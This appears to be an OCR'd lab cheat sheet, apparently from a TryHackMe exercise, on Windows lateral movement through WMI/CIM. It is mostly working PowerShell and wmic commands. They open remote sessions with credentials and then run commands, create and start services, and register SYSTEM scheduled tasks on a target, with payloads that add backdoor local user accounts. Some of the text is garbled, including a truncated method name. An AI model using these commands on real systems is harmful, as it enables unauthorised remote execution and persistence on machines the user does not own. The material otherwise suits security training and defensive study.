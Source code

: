 - WMI Session
```
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

- **Remote Process**
  - 135/TCP, 49152-65535/TCP (DCERPC)
  - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
  - Group: Administrators
```
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}

# Legacy
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 
```

- **Create services remotly**
```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Your payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}

# Create
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"

Invoke-CimMethod -InputObject $Service -MethodName StartServic

# handle
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

- **Scheduled Task**
```
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"


# Execute
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```
